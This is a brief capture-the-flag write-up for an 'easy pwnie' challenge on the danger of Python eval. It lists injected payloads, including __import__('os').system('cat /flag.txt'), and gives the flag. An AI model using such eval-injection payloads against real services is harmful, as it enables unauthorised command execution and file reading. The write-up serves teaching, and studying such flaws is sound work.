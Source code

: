 # easy pwnie

## Description
Can you print the flag?

## Writeup
The challenge is intended to teach the risks of eval. Arbitrary commands can be run if not sanitized properly. For printing the flag use any one:
`open('/flag.txt', 'r').read()`
`__import__('os').system('cat /flag.txt')`

## FLAG
COPS{ur_pwn13_54y5_n31ghhh}
